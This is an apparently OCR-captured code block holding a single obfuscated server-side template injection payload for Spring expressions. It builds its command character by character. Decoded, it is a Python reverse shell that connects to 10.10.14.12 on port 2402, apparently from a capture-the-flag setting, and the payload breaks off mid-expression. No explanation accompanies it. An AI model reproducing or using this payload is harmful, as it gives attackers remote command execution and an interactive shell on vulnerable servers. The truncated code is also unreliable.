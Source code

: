 ```python
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(112).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(39)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(59)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(75)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(59)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(34)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(34)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(41)).concat(T(java.lang.Character).toString(59)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(40)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toStrin
```